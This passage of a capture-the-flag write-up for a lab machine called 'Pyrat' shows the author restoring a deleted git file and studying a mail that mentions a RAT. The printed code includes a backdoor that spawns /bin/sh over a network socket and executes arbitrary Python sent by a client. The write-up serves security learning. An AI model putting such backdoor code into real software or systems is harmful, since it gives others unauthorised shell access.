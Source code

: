 There's a deleted file with the same name as our mysterious background process. It's common sense to carefully check Github repositories for passwords, leaked secrets, etc. Let's restore the file to see what we're missing.

```sh
think@Pyrat:/opt/dev$ git restore pyrat.py.old
think@Pyrat:/opt/dev$ ls -la
total 16
drwxrwxr-x 3 think think 4096 Feb 11 21:18 .
drwxr-xr-x 3 root  root  4096 Jun 21  2023 ..
drwxrwxr-x 8 think think 4096 Feb 11 21:18 .git
-rw-rw-r-- 1 think think  753 Feb 11 21:18 pyrat.py.old
think@Pyrat:/opt/dev$ cat pyrat.py.old 
...............................................

def switch_case(client_socket, data):
    if data == 'some_endpoint':
        get_this_enpoint(client_socket)
    else:
        # Check socket is admin and downgrade if is not aprooved
        uid = os.getuid()
        if (uid == 0):
            change_uid()

        if data == 'shell':
            shell(client_socket)
        else:
            exec_python(client_socket, data)

def shell(client_socket):
    try:
        import pty
        os.dup2(client_socket.fileno(), 0)
        os.dup2(client_socket.fileno(), 1)
        os.dup2(client_socket.fileno(), 2)
        pty.spawn("/bin/sh")
    except Exception as e:
        send_data(client_socket, e

...............................................
```

While the `shell()` function is just a simple function, the `switch_case()` tells us that "some endpoint" is used for admin access. 

After some more poking around inside the system, I've decided to check inside the email folder `/var/mail/` and found some interesting stuff. This took me a while since I don't often check this directory.

```
From root@pyrat  Thu Jun 15 09:08:55 2023
Return-Path: <root@pyrat>
X-Original-To: think@pyrat
Delivered-To: think@pyrat
Received: by pyrat.localdomain (Postfix, from userid 0)
        id 2E4312141; Thu, 15 Jun 2023 09:08:55 +0000 (UTC)
Subject: Hello
To: <think@pyrat>
X-Mailer: mail (GNU Mailutils 3.7)
Message-Id: <20230615090855.2E4312141@pyrat.localdomain>
Date: Thu, 15 Jun 2023 09:08:55 +0000 (UTC)
From: Dbile Admen <root@pyrat>

Hello jose, I wanted to tell you that i have installed the RAT you posted on your GitHub page, i'll test it tonight so don't be scared if you see it running. Regards, Dbile Admen
```
